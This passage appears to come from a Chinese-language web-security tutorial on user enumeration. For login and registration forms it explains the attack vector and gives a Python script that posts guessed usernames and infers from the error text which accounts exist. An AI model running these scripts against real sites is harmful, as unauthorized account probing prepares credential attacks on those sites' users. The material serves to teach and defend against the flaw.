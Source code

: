 ### 4.1 登录功能中的用户枚举
#### 4.1.1 攻击向量
攻击者通过尝试登录不同用户，分析系统返回的错误消息或状态码，推断用户是否存在。

#### 4.1.2 示例代码
```python
import requests

def check_user_existence(username):
    url = "https://example.com/login"
    data = {"username": username, "password": "wrongpassword"}
    response = requests.post(url, data=data)
    
    if "User not found" in response.text:
        return False
    elif "Invalid password" in response.text:
        return True
    else:
        return None

usernames = ["admin", "user1", "user2"]
for username in usernames:
    if check_user_existence(username):
        print(f"User {username} exists")
    else:
        print(f"User {username} does not exist")
```

### 4.2 注册功能中的用户枚举
#### 4.2.1 攻击向量
攻击者通过尝试注册不同用户，分析系统返回的错误消息或状态码，推断用户是否存在。

#### 4.2.2 示例代码
```python
import requests

def check_user_existence(username):
    url = "https://example.com/register"
    data = {"username": username, "password": "password123"}
    response = requests.post(url, data=data)
    
    if "Username already exists" in response.text:
        return True
    else:
        return False

usernames = ["admin", "user1", "user2"]
for username in usernames:
    if check_user_existence(username):
        print(f"User {username} exists")
    else:
        print(f"User {username} does not exist")
```
